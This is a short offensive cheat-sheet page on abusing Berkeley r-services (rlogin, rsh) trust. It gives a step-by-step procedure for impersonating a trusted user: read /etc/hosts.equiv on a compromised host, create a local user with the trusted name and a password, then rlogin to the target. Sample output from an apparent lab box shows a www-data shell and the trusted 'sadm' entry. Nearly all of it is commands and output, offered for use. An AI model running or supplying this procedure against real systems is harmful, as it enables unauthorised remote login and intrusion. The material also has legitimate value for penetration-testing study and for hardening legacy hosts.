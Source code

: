 ```yaml
---
title: "R Services"
date: 2025-7-16
tags: ["R Services", "rlogin", "rexec", "rsh", "r-commands", "Shell", "Berkeley"]
---
```


### Abuse #1: Fake a User

#### 1. Check

```console
cat /etc/hosts.equiv
```

```console {class="sample-code"}
(remote) www-data@reset:/home/sadm$ cat /etc/hosts.equiv
# /etc/hosts.equiv: list  of  hosts  and  users  that are granted "trusted" r
#                   command access to your system .
- root
- local
+ sadm
```

#### 2. Create the Target User Locally

```console
# Create a Fake User
sudo useradd <USER>
```

```console
# Set Password
sudo passwd <USER> 
```

```console {class="sample-code"}
$ sudo useradd sadm
                                                                                                                                                                                                                                                                                                                            
$ sudo passwd sadm 
New password: 
Retype new password: 
passwd: password updated successfully
                                                                                                                                                                                                                                                                                                                            
$ cat /etc/passwd | grep sadm
sadm:x:1001:1001::/home/sadm:/bin/sh
```

```console
# Switch User
su <USER>
```

#### 3. Connect

```console
# Installation
sudo apt install rsh-redone-client
```

```console
# Connect
rlogin <TARGET>
```

#### 4. Revert

```console
sudo userdel <USER>
```